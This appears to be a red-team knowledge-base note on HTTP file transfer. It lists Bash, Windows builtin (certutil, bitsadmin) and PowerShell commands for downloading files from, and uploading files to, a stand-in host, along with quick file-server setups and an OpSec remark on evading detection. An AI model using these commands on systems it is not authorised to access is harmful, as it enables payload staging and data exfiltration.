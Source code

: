 ```yaml
---
title: HTTP File Transfer
---
```


[[notes/file-transfer/index]] over the [[notes/network/http]] protocol.

# Download via GET

Pure Bash ([source](https://pastebin.com/H0EJLdjc)).

~~~ bash
function curl() {
  exec 3<> "/dev/tcp/$1/$2"
  echo -en "GET $3 HTTP/1.0\r\nHost: $1\r\n\r\n" >&3
  (
    while read line; do
      [[ "$line" == $'\r' ]] && break
    done && cat
  ) <&3
  exec 3>&-
}
curl 192.0.2.1 8080 /input.bin > ./output.bin
~~~

Common Linux utilities.

~~~ bash
curl -o ./output.bin http://192.0.2.1:8080/input.bin
wget -O ./output.txt http://192.0.2.1:8080/input.txt
~~~

Windows builtins.

~~~ bat
certutil.exe -urlcache -f http://192.0.2.1:8080/input.bin .\output.bin
bitsadmin.exe /transfer myjob http://192.0.2.1:8080/input.bin %cd%\output.bin
~~~

`curl.exe` is preinstalled since Windows 10.

PowerShell variants.

~~~ powershell
iwr http://192.0.2.1:8080/input.bin -useb -outf .\output.bin
Invoke-WebRequest -Uri http://192.0.2.1:8080/input.bin -UseBasicParsing -OutFile .\output.bin
irm http://192.0.2.1:8080/intput.txt > ./output.txt
Invoke-RestMethod http://192.0.2.1:8080/intput.txt > ./output.txt
(New-Object System.Net.WebClient).DownloadFile('http://192.0.2.1:8080/input.bin',"$(pwd)\output.bin")  # doesnt work in constrained language mode
~~~

> **OpSec:** Mature organizations probably have detection rules for the Windows builtins.

# Upload via PUT

Linux utility.

~~~ bash
curl -T ./input.bin http://192.0.2.1:8080/output.bin
~~~

PowerShell.

~~~ powershell
(New-Object System.Net.WebClient).UploadFile('http://192.0.2.1:8080/output.bin', "$(pwd)\input.bin")  # doesn't work in constrained languge mode
~~~

# Server

Python.

~~~ bash
python3 -m http.server 8080
python2 -m SimpleHTTPServer 8080
~~~

PHP.

~~~ bash
php -S 0.0.0.0:8080
~~~

Ruby.

~~~ bash
ruby -run -e httpd . -p 8080
~~~

Linux Busybox.

~~~ bash
busybox httpd -f -p 8080
~~~

Nginx with authentication and file upload.

`./nginx.conf`:

~~~
http {
  server {
    server_name localhost;
    listen 8080 default_server;
    listen [::]:8080 default_server;

    auth_basic "Restricted";
    auth_basic_user_file ./htpasswd;

    location / {
      root ./srv;
      dav_methods PUT;
      dav_access user:rw group:rw all:r;
      create_full_put_path on;
      autoindex on;
      client_max_body_size 128m;
    }
  }

  client_body_temp_path ./tmp;
  access_log /dev/stdout;
  log_not_found off;

  sendfile on;
  tcp_nopush on;
  tcp_nodelay on;
  types_hash_max_size 4096;

  server_tokens off;

  charset utf-8;
  default_type application/octet-stream;
  types {
    text/css css;
    text/html html;
    text/javascript js;
  }
}

events {
  multi_accept on;
  worker_connections 1024;
}

pid /dev/shm/nginx.pid;
worker_processes auto;
worker_rlimit_nofile 2048;
daemon off;
pcre_jit on;
error_log /dev/stderr;
~~~

~~~ bash
mkdir ./srv ./tmp
echo "admin:$(echo 'passw0rd' | openssl passwd -stdin -apr1)" > ./htpasswd
nginx -p . -c ./nginx.conf
~~~

Untested tools:

- [skyhook](https://github.com/blackhillsinfosec/skyhook), HTTP file server with builtin transport obfuscation
- [updog](https://github.com/sc0tfree/updog), HTTP file server with up- and download

References:

- [twitter.com/RedTeamTactics/status/1689649961544425474](https://twitter.com/RedTeamTactics/status/1689649961544425474), upload to Azure Blob Container with `curl`
